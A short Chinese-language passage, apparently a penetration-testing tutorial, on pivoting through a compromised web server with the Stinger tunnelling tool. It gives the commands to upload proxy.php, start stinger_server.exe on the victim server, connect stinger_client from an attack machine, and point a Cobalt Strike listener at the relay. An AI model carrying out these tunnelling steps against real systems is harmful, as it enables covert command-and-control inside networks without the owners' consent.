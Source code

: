 1.上传proxy.php到WEB服务器网站目录，正常访问返回UTF-8

web服务器外网ip为192.168.1.70

![image-20220517181300013.png](assets/attach-526ac95e9ac5479caca8ecd91938b2377b46a0f2.png)

上传stinger_server.exe，执行

```php
start stinger_server.exe 0.0.0.0
```

攻击机(192.168.1.89)上执行

```php
./stinger_client -w http://192.168.1.70/proxy.php -l 127.0.0.1 -p 60000
```

此时已经将web服务器的60020端口转发到vps的60020端口上了

CS设置监听,`HTTP Hosts`为中转机器的内网ip，端口为60020：

![image-20220517181223593.png](assets/attach-39fef2eab97f8de9a58087c3019bdc96c6e78831.png)
